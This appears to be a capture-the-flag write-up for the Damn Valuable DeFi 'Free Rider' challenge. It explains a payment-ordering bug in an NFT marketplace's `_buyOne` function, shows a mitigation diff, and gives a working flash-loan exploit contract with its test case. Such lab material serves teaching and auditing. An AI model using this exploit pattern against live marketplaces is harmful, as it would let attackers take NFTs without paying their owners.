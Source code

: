 ## The `_buyOne` function has a logic error that allows any user to buy a NFT for free

The function is transfering the token from buyer to seller, then uses `token.ownerOf` expecting to get the address of the seller (because the dev things that the cached NFT contract will keep the same owner after the transfer from). But what is happening in reality, is that it is taking the address of the buyer, so it is 'refunding' the ETH.  
```solidity
    function _buyOne(uint256 tokenId) private {
        uint256 priceToPay = offers[tokenId];
        if (priceToPay == 0) {
            revert TokenNotOffered(tokenId);
        }

        if (msg.value < priceToPay) {
            revert InsufficientPayment();
        }

        --offersCount; 

        // transfer from seller to buyer
        DamnValuableNFT _token = token; // cache for gas savings
        _token.safeTransferFrom(_token.ownerOf(tokenId), msg.sender, tokenId);

        // pay seller using cached token 
        // @audit this is transfering ETH the NEW owner of the NFT (AKA the buyer), not the previous one (AKA the seller) 
        payable(_token.ownerOf(tokenId)).sendValue(priceToPay);

        emit NFTBought(msg.sender, tokenId, priceToPay);
    }
```


### recomended mitigations
Cache the onwer of the token before the transfer:
```diff
    function _buyOne(uint256 tokenId) private {
        uint256 priceToPay = offers[tokenId];
        if (priceToPay == 0) {
            revert TokenNotOffered(tokenId);
        }

        if (msg.value < priceToPay) {
            revert InsufficientPayment();
        }

        --offersCount; 

        // transfer from seller to buyer
        DamnValuableNFT _token = token; // cache for gas savings
+       address prevOwner = _token.ownerOf(tokenId);
        _token.safeTransferFrom(_token.ownerOf(tokenId), msg.sender, tokenId);

        // pay seller using cached token 
        // @audit this is transfering ETH the NEW owner of the NFT (AKA the buyer), not the previous one (AKA the seller) 
-       payable(_token.ownerOf(tokenId)).sendValue(priceToPay);
+       payable(prevOwner).sendValue(priceToPay);

        emit NFTBought(msg.sender, tokenId, priceToPay);
    }
```

### PoC
We Request a flashloan from UniswapV2 to get 15 ETH to buy one NFT (no needed to request 15*6 ETH cause the ETH will be sended back on each buy). 
To make this we create an `Interacter` contract that has the `uniswapV2Call` callback with the logic to use the borrowed funds. Specifically, makes a call to `buyMany` and then transfer the NFTs to the recovery manager. 

Interacter:
```solidity
contract Interacter {
    address uv2Pool;
    address weth;
    address marketplace;
    address player;
    address recoveryManager;
    
    constructor(address _uv2Pool, address _weth, address _marketplace, address _player, address _recoveryManager) {
        uv2Pool = _uv2Pool;
        weth = _weth;
        marketplace = _marketplace;
        player = _player;
        recoveryManager = _recoveryManager;
    }

    function uniswapV2Call(address sender, uint amountOut0, uint amount1Out, bytes calldata data) public {
        WETH _weth = WETH(payable(weth));
        FreeRiderNFTMarketplace _marketplace = FreeRiderNFTMarketplace(payable(marketplace));
        
        _weth.withdraw(_weth.balanceOf(address(this)));


        uint256[] memory ids = new uint256[](6);
        ids[0] = 0;
        ids[1] = 1;
        ids[2] = 2;
        ids[3] = 3;
        ids[4] = 4;
        ids[5] = 5;
        
        _marketplace.buyMany{ value: 15e18 }(ids);

        DamnValuableNFT nft = _marketplace.token();
        nft.safeTransferFrom(address(this), recoveryManager, 0);
        nft.safeTransferFrom(address(this), recoveryManager, 1);
        nft.safeTransferFrom(address(this), recoveryManager, 2);
        nft.safeTransferFrom(address(this), recoveryManager, 3);
        nft.safeTransferFrom(address(this), recoveryManager, 4);
        nft.safeTransferFrom(address(this), recoveryManager, 5, abi.encode(player)); // send the address to receive the bounty 

        // Due to vul, I get my ETH back
        _weth.deposit{ value:address(this).balance }();
        _weth.transfer(uv2Pool, _weth.balanceOf(address(this)));
    }

    function onERC721Received(address,address,uint256,bytes calldata) external pure returns(bytes4) {
        return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
    }

    receive() payable external {}

}
```

then in the testcase:
```solidity
    function test_freeRider() public 
    checkSolvedByPlayer
    {    
       Interacter interacter = new Interacter(address(uniswapPair), address(weth), address(marketplace), player, address(recoveryManager));
       // -1 cause isSolved is evaluating this to be greater than 45e18 not greater or equal->TODO: calculate exact fees the transfer just the necessary
       weth.deposit{ value:player.balance - 1 }(); 
       weth.transfer(address(interacter), weth.balanceOf(player)); // transfer to pay the fee for the flashloan 
       // request flashloan 
       uniswapPair.swap(
        15e18,
        0,
        address(interacter),
        'non-zero-length'
       );
    }
```